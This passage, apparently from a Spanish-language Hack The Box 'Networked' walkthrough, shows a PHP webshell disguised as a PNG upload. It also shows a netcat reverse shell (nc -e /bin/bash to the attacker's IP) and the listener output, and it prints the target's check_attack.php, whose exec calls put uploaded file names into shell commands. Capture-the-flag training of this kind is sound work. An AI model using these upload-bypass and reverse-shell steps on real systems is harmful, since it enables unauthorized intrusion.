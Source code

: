 Si vemos el código fuente, nos encontramos que para este caso nuestro archivo fue guardado en `/uploads/10_10_14_27.php.png`; si le damos click sólo vemos la cadena de texto **GIF8;** pero podemos ejecutar comandos:

![""](/assets/images/htb-networked/networked-web5.png)

Ahora si, vamos a tratar de entablarnos una reverse shell a nuestro equipo; por lo tanto, nos ponemos en escucha por el puerto 443:

```bash
http://10.10.10.146/uploads/10_10_14_27.php.png?cmd=nc -e /bin/bash 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.146] 38076
whoami
apache
```

Para trabajar más cómodos vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Vemos que en `/home` existe el usuario **guly** y dentro de su directorio home vemos dos archivos de los cuales tenemos permisos de lectura. Por lo tanto, vamos a echarles un ojo:

```bash
bash-4.2$ cat check_attack.php 
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
```